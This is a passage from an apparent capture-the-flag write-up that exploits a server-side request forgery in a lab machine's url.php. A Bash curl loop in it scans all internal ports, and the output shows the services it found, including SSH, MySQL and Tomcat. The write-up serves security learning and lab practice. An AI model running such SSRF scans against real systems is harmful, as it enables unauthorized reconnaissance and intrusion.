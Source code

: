 
Looking at port 10 (unlikely to be listening), there’s an empty response:

    
    
    oxdf@parrot$ curl http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A10
    
    

#### Loop

I can create a Bash loop to check all 65535 ports for responses:

    
    
    for i in {0..65535}; do 
      res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i});
      len=$(echo $res | wc -w); 
      if [ "$len" -gt "0" ]; then
        echo -n "${i}: "; 
        echo $res | tr -d "\r" | head -1 | cut -c-100; 
      fi;
    done
    

This will loop over the numbers 0 to 65535. For each, it will submit
`http://127.0.0.1:${i}` to the Kotarak browser, where `${i}` is the Bash
variable. It will store the result in `$res`. It gets the length of `$res`,
and if that’s longer than 0, it prints `${i}` and the first line of `$res` up
to 100 characters.

Running this got through about 1000 ports per minute, so it got through the
first 1000 ports pretty quickly, but the entire loop takes a while. I can
start enumerating the lower ports right away, but I let it run to completion
because this box already had a service hidden at tcp 60000 (and I had to step
away from the computer for a bit anyway).

    
    
    oxdf@parrot$ time for i in {1..65535}; do res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i}); len=$(echo $res | wc -w); if [ "$len" -gt "0" ]; then echo -n "${i}: "; echo $res | tr -d "\r" | head -1 | cut -c-100; fi; done
    22: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch.
    90: <!DOCTYPE> <html> <head> <title>Under Construction</title> </head> <bodyd> <p>This page is under con
    110: <html> <head> <title> favorites / bookmark title goes here </title> </head> <body bgcolor="white" te
    200: <b>Hello world!</b>
    320: <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd"><html> <he
    888: <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en"> <head> <meta http-equiv="content
    -bash: warning: command substitution: ignored null byte in input
    3306: 5.7.19-0ubuntu0.16.04.1 %t&Jz/a,X?JFLymysql_native_passwordot packets out of order
    8080: <!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title><style type="text/css">H
    60000: <!DOCTYPE html> <html> <head> <style> div.container { width: 100%; border: 1px solid gray; } header,
    